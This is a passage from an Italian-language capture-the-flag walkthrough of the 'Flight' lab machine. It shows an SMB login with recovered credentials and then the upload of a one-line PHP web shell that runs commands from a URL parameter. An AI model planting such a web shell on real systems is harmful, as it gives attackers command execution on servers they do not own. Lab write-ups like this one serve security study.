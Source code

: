 Ma prima di ispezionare quello share, vado alla ricerca del primo flag in "Users":

```bash
impacket-smbclient c.bum:'Tikkycoll_431012284'@flight.htb
```

Nella directory "..\Users\C.Bum\Desktop\" trovo il primo flag:

<p align="center">
  <img src="/Immagini/Windows-Box/Flight/flight-15.png"/>
</p>

## Privilege Escalation
Per elevare i miei privilegi controllo il contenuto dello share "Web":

<p align="center">
  <img src="/Immagini/Windows-Box/Flight/flight-16.png"/>
</p>

Avendo i permessi in scrittura provo a caricare un semplice file php (shell.php) per eseguire un comando sulla webshell. In paricolare il file è il seguente:

```text
<?php
echo system($_GET['c']);
?>
```
